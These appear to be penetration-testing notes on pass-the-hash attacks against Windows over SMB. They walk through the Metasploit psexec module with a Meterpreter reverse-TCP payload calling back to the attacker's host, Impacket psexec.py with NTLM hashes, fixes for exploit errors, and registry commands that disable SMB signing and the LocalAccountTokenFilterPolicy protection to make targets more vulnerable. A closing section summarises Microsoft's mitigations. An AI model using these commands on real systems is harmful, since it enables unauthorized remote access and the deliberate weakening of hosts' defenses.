

psexec
Prerequisite:
• NTLM hash & user
Metasploit’s PsExec exploit module supports pass-the-hash capabilities
The psexec module is often used by penetration testers to obtain access to a given system that you already know the hashed credentials without cracking it.
With this module we can authenticate to the target machine via SMB with Metasploit(msf)
as an admin user with only that admin's hash ◇
Metasploit psexec msf > use exploit/windows/smb/psexec
msf > set RHOST [victims] #we can set more machines(range) in the network and test to "pass the hash" on them
msf > set LHOST [your_linux_ip_address]
msf > set PAYLOAD windows/meterpreter/reverse_tcp
msf > set SMBUser [admin_name] #admin username
msf > set SMBPass [LANMAN]:[NT] #administrator's hash in LM:NT format
msf > show options #to review the settings for our attack
msf > db_disconnect #at the time that we write there is a bug in msf,
#to exploit we need to disconnect the database
msf > exploit
Metasploit's PsExec exploit can realize that we are using a hash here instead of a password and launch its attack using pass-the-hash, making the target run the Metasploit payload
If the pass-the-hash attack works successfully, you should get Meterpreter access to the target machine.
◇
Python3 psexec kali@kali:~$ cd /usr/share/doc/python3-impacket/examples/
kali@kali:~$ psexec.py <FQDN>/<user>:<password>@<ipAddress> #with clear password
kali@kali:~$ python3 psexec.py <user>@<ipAddress> -hashes <LM:NTLM> #with hashes
Possible error messages:
•
"Exploit failed: ActiveRecord … Data has already been taken“That is due to a bug in the Metasploit database feature and its interaction with credentials. You can bypass that problem by disconnecting from the database by typing "db_disconnect” and then try to exploit it again.
•
“Exploit failed [no-access]: Rex::Proto::SMB::Exceptions::ErrorCode.......STATUS_ACCESS_DENIED (Command=117 WordCount=0) error”That error occur when we try to access with a user that is in the Administrators group, but is not an “actual” administrator(RID-500).
This because Microsoft released a patch for Windows 7 and Server 2008 to prevent the ability to pass-the-hash with non-RID 500 local administrator accounts
Here the article:
https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/A summary of the article is done below in "Microsoft's Pass-the-Hash Mitigations"
This happen because of two settings in the registry value,
The registry key that make the Windows system MORE vulnerable:
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy #set the DWORD (32-bit) to 1
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\RequireSecuritySignature #set the DWORD (32-bit) to 0
→ set to 1 allow non RID-500 user accounts (for example users in the local administrator) to successfully pass-the-hash
To modify these values we have different possibilities:
• reg (meterpreter command):
meterpreter > reg setval -k “HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System” -v LocalAccountTokenFilterPolicy -t REG_DWORD -d 1
meterpreter > reg setval -k “HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters” -v RequireSecuritySignature -t REG_DWORD -d 0
• reg (cmd command)(
https://ss64.com/nt/reg.html):
C:\> reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
C:\> reg add HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters /v RequireSecuritySignature /t REG_DWORD /d 0 /f
◇ To query the value of the registry keys
C:\> reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy
C:\> reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters /v RequireSecuritySignature
• Set-ItemProperty (powershell command):
PS> Set-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LocalAccountTokenFilterPolicy -Value 1 -Type DWord
PS> Set-ItemProperty -Path HKLM:\System\CurrentControlSet\Services\LanManServer\Parameters –Name RequireSecuritySignature –Value 0 –Type DWord
Microsoft's Pass-the-Hash Mitigations
Microsoft has released several patches in an attempt to mitigate pass-the hash attacks but it is a fundamentally part of internal network authentication protocols (LM C/R, NTLMv1, NTLMv2, Kerberos) and cannot be patched.
Patches: ◇
Microsoft Security Advisory 2871997 KB2871997 patch (released May 2014): Available patch for Windows 7/Server 2008 R2 and incorporated by default from Windows 8.1
▪ Adds two security identifiers (SIDs)
- local accounts → S-1-5-113 (NT AUTHORITY\Local account)
- local admins → S-1-5-114 (NT AUTHORITY\Local account and member of Administrators group)
C:\> WMIC useraccount get name,sid #list of users an their SID
▪ Via Group Policy, you can restrict all remote administration using local accounts
◇ Windows Defender Credential Guard: Available only for Windows 10 and Server 2016/2019
▪ Isolates secrets (Local Security Authority Subsystem Service / lsass.exe) from the operating system using virtualization technology, Secure Boot, and Trusted Platform Module
▪ Credential Guard isn’t a defense against passing the hash, it’s a defense against attackers gaining access to hashes in the first place
Bibliography:
•
https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/{kind=link}